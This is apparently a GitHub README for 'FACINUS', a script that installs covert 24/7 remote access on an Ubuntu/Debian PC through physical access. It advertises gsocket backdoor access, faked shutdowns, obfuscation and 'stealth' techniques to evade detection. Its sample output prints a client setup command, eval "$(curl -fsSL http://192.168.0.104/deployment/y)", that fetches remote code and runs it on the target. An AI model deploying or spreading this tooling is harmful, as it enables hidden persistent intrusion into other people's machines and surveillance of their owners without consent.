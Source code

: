 ## FACINUS - set a 24/7 access on a Ubuntu/Debian PC you have physical access to with [gsocket](https://www.gsocket.io/) and other features

This script is setting up an Apache server on your Arch based linux distro and targets Ubuntu/Debian.

## Features
- **SSH**: Set up SSH server on target to quickly access from internal network.
- **WOL**: Check for wake-on-lan availability, to be able to wake any other pc's on network which ran the script.
- **24/7**: Fake a poweroff to keep the PC running 24/7.
- **Log**: Logs everything on your server.
- **gsocket**: Set up a gsocket service on target to access the server from anywhere.
- **Stealth**: Simple evading techniques to avoid detection.

## Installation
For now this script doesn't have checks for other distros than Arch based with pacman package manager. I'll add more checks later.
You just have to run the install script that will setup everything automatically for you.
```
sudo ./install
```

## Help
You can run ./install --help to see available options.
```
./install --help
FACINUS Installation Script
Usage: ./install [options]

Options:
  --no-root            Install without root privileges (limited functionality)
  --no-services        Don't install system services
  --no-wol             Don't configure Wake-on-LAN
  --no-fake-poweroff   Don't install fake poweroff feature
  --no-gsocket         Don't install gsocket for remote access
  --no-stealth         Don't apply stealth techniques
  --light-theme        Use light theme for web interface
  --server-ip IP       Specify server IP address
  --server-port PORT   Specify server port (default: 80)
  --server-root PATH   Specify server root directory
  --verbose            Show verbose output
  --help               Show this help message
```

## Web Interface
After running the script you'll see something like this:
```
./install
[sudo] password for elleoma: 
Obfuscated script created.
==============================================================
Deployment server setup complete!
==============================================================
Server URL: http://192.168.0.131/deployment
Admin Page: http://192.168.0.131/deployment/admin/admin.php
Admin Password: 2cn2lguMIdx9
Client Setup Command: eval "$(curl -fsSL http://192.168.0.104/deployment/y)"
==============================================================
Secret Token for accessing logs: NTVEYJWTYAk5OolAAKYodaSjPWKaKb4X
==============================================================
```
After accessing url you'll see a simple commands to copy and paste on the target.
On the admin panel you can check the logs and the secrets for gsocket access.

<img src="https://github.com/elleoma/facinus/blob/beta/screenshots/deployment.png"/>
<img src="https://github.com/elleoma/facinus/blob/beta/screenshots/admin.png"/>

## TODO
- [ ] Do fake poweroff for all possible variants for Ubuntu/Debian with gnome.
- [x] Add checks for other distros
- [ ] Obfuscation, process hiding, etc.
- [ ] Ability to install common precompiled binaries on a target without root access.
- [x] Add options to the script (no root, no services, etc.)
- [x] Add a dark theme for the web interface
